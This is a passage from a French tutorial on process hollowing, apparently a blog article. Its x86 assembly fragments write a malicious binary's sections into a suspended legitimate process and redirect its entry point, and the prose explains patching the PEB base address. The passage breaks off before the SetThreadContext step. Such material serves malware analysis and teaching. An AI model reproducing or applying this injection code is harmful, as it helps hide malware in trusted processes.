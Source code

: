 ```
	push		0
	mov 		ebx, [esi+10h] ; SECTION_HEADERS.SizeOfRawData
	push 		ebx

	mov 		ebx, [esi+14h] ; SECTION_HEADERS.PointerToRawData
	lea 		ebx, [payload+ebx]
	push 		ebx

	mov		ebx, mem
	add 		ebx, [esi+0Ch] ;SECTION_HEADERS.VirtualAddress
	push		ebx

	push		PrcInfo.hProcess
	call		WriteProcessMemory 
	
	pop		ecx ; restore the counter from the stack
	inc		ecx

	mov 		edi, [e_lfanew]
	lea 		edi, [payload+edi+6] ; FILE_HEADER.NumberOfSections
	xor 		edx, edx
	mov 		dx, [edi]
	cmp		ecx, edx
	jnz		_loopToWriteRemainingSections
	jmp		_BaseAddressPEB
```

Il ne reste pas grand chose à faire.

On a maintenant un processus légitime qui a été vidé puis remplacé par l'image d'un binaire malveillant. Il ne reste plus qu'à relancer le thread afin qu'il reprenne son cours normal d'exécution. Pas tout à fait ...

L'entry point du binaire malveillant à peu de chance d'être le même que celui du processus légitime, de même pour son adresse de base. Il va falloir agir en conséquence. On a vu au début de l'article que le __context__ d'un thread suspendu contenait dans son __PEB__ l'adresse de base. Il va falloir la modifier et y mettre l'adresse à laquelle le binaire malveillant a été chargé grâce à __VirtualAllocEx()__.

En ce qui concernant l'__entry point__, on a vu qu'il était situé dans __eax__. Il faut donc le modifier avec celui du binaire malveillant. Celui-ci est disponible dans le header __NT_HEADERS.OPTIONAL_HEADER__ dans le membre __AddressOfEntryPoint__ à l'offset __0x28__ par rapport à __e\_lfanew__. Le code suivant effectue cela: 

```
_newEntryPoint:
	mov		eax, mem
	mov 		ebx, [e_lfanew]
	lea 		ecx, [payload+ebx+28h] ; NT_HEADERS.OPTIONAL_HEADER.AddressOfEntryPoint
	add 		eax, [ecx]
	mov		Context.rEax, eax ; Set the eax register to the entry point of the injected image
```

Une fois que l'on a modifié le __context__ du processus légitime, il ne reste plus qu'à faire l'update grâce à la fonction __SetThreadContext()__ comme suit:
